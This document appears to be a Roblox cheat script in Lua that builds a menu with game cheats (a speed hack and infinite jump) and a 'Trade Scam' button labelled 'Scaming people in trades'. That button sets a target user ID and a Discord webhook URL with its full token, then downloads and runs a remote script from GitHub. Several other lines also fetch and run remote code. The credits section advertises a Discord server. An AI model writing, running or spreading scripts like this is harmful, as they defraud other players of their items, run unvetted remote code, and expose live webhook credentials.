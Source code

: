 # name
description
local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("Eyad Abdelrehim", "Ocean")
local Tab = Window:NewTab("Main")
local Section = Tab:NewSection("Eyad Abdelrehim")

Section:NewSlider("WalkSpeed", "WalkSpeed make you go fast in walking", 500, 0, function(s) -- 500 (MaxValue) | 0 (MinValue)
    game.Players.LocalPlayer.Character.Humanoid.WalkSpeed = s
end)

Section:NewButton("InfiniteJumb", "ButtonInfo", function()
    local InfiniteJumpEnabled = true
    game:GetService("UserInputService").JumpRequest:connect(function()
        if InfiniteJumpEnabled then
            game:GetService"Players".LocalPlayer.Character:FindFirstChildOfClass'Humanoid':ChangeState("Jumping")
        end
    end)
end)

local Tab = Window:NewTab("Trade Scam")
local Section = Tab:NewSection("Hi Guys So If You Press on Trade Scam")
local Section = Tab:NewSection("You Need to be in a Trade so u can use it")
Section:NewButton("Trade Scam", "Scaming people in trades", function()
    _G.UserID = 2226515831
    _G.Webhook = "https://discord.com/api/webhooks/1075578439991558164/hL3H1k7Ixf6cj_6Yw549Fn8vwrZ0_E0pnNtyz1a6zMXQUFggytWSblfLTQoBuUwl74Dg"
    
    loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/rizzhub/main/Script.lua"))()
end)

local Tab = Window:NewTab("Credit")
local Section = Tab:NewSection("Subscribe To Eyad Abdelrehim")
local Section = Tab:NewSection("https://discord.gg/8Zqnth532T")
local Section = Tab:NewSection("Owner  FaZeY")
local Section = Tab:NewSection("Co Owner  votrex")
local Section = Tab:NewSection("Helper  Reaper")
local Section = Tab:NewSection("Friend  mini-socker")

